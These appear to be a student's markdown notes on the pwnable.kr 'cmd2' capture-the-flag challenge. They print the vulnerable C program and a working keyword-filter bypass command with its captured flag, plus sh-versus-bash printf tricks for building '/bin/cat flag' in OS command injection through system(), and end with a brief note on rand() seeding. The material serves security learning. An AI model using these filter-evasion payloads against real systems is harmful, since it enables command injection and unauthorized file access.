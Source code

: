 ```yaml
---
sort : 1
---
```



# SH 

```
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
        int r=0;
        r += strstr(cmd, "=")!=0;
        r += strstr(cmd, "PATH")!=0;
        r += strstr(cmd, "export")!=0;
        r += strstr(cmd, "/")!=0;
        r += strstr(cmd, "`")!=0;
        r += strstr(cmd, "flag")!=0;
        return r;
}

extern char** environ;
void delete_env(){
        char** p;
        for(p=environ; *p; p++) memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
        delete_env();
        putenv("PATH=/no_command_execution_until_you_become_a_hacker");
        if(filter(argv[1])) return 0;
        printf("%s\n", argv[1]);
        system( argv[1] );
        return 0;
}
```


EX ::
	* if any of {"=", "PATH", "export", "/", "`", "flag"} in command  --> exit(0)
	* All environment varibales are deleted 
	* PATH=/no_command_execution_until_you_become_a_hacker
	* system(argv[1])


https://n1ght-w0lf.github.io/binary%20exploitation/cmd2/

https://github.com/victor-li/pwnable.kr-write-ups/blob/master/cmd2.md

https://medium.com/@clong/pwnable-kr-cmd1-cmd2-writeups-e6980fa8daca





```
$ ./cmd2 “command -p cat \”f\”\”l\”\”a\”\”g\””
command -p cat “f””l””a””g”
FuN_w1th_5h3ll_v4riabl3s_haha
```













## sh vs. bash 

bash is sh, but with more features and better syntax.

`sh` is implemented by programs like `dash`, `kash`, and original `Bourne Shell`


```note
It is not possible to use `echo` portably across all POSIX systems unless both -n (as the first argument) and escape sequences are omitted. The `printf` utility can be used portably to emulate any of the traditional behaviors of the echo
```


> Ex

sh : 
```sh 
$ echo $'\x2f\x62\x69\x6e\x2f\x73\x68'
#	\x2f\x62\x69\x6e\x2f\x73\x68

$ echo -e \\x2f\\x62\\x69\\x6e\\x2f\\x73\\x68
#	-e \x2f\x62\x69\x6e\x2f\x73\x68

$ printf "%b" '\x2f\x62\x69\x6e\x2f\x73\x68'
#	\x2f\x62\x69\x6e\x2f\x73\x68
```

bash :
```bash
$ echo $'\x2f\x62\x69\x6e\x2f\x73\x68'
#	/bin/sh

$ echo -e \\x2f\\x62\\x69\\x6e\\x2f\\x73\\x68
#	/bin/sh

$ printf "%b" '\x2f\x62\x69\x6e\x2f\x73\x68'
#	/bin/sh
```

```tip
some times using echo in some OS command injection attacks - through for example `system()` function in C - won't work !! 

because system() forks a new process and run the passed command inside `sh` environment, `execl("/bin/sh", "sh", "-c", command, (char *) NULL);`
```

sh :
```sh              
$ printf "%bbin%bcat %s%s" "\57" "\57" "fl" "ag"
#	/bin/cat flag$														finally !! 
```

bash :
```bash
printf "%bbin%bcat %s%s" "\57" "\57" "fl" "ag"
#	\57bin\57cat flag                                                                                                                    
```
















# rand()

The `rand()` function returns a `pseudo-random` integer in the range `0` to `RAND_MAX` inclusive (i.e., the mathematical range [0, RAND_MAX]).

The `srand()` function sets its argument as the `seed` for a new `sequence` of pseudo-random integers to be returned by `rand()`.  These sequences are `repeatable` by calling srand() with the same seed value.

If `no seed value is provided`, the rand() function is automatically seeded with a value of `1`.